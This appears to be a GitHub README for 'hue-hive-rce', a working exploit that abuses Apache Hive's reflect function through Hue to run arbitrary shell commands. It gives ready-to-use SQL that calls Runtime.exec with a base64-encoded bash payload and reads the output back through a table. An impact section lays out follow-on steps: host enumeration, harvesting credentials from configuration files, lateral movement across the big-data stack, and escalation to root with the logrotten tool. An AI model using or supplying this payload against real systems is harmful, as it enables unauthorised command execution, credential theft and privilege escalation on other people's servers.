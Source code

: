 # hue-hive-rce
 
## Preparation
PS:Hive 支持ReflectUDF , 利用Java反射可以直接调用对应类的方法 

```sql
create table workspace_hs.out as select "Hendrik Schultze @ InnoGames";
truncate table workspace_hs.out;
```

## Command and get output
```sql
SELECT reflect("java.lang.Runtime", "exec", concat("bash -c {echo,",base64(encode("${cmd} &> /tmp/out", 'UTF-8')),"}|{base64,-d}|{bash,-i}"));
truncate table workspace_hs.out;
LOAD DATA LOCAL INPATH '/tmp/out' INTO TABLE workspace_hs.out;
select * from workspace_hs.out;
```

### Example
![alt text](screen-2020-04-28-11-20-20.png "Usage example")

### Impact
Depending on the user (`hive` or worst case `root`) we can at least save and run scripts inside the datacenter from `/tmp`.
Therefore we can use that server as base for future attacks in the whole environment, checking the local server (`ss -tulpn`,`ps auxf`, enumeration...) or watching for other server.
Often internal Big Data systems are not fully protected because they are setup insecure by default.
These allows us to read configurations (potential credentials etc) from the Apache ResourceManage, Apache ZooKepe, etc.
As these BigData stack offer many APIs. We can submit MapRed Jobs, executed on HDFS, connect to Apache Kafka or many other options.
If we should not be `root`, we often can easly to escalate to `root` e.G. with [logrotten](https://github.com/whotwagner/logrotten).
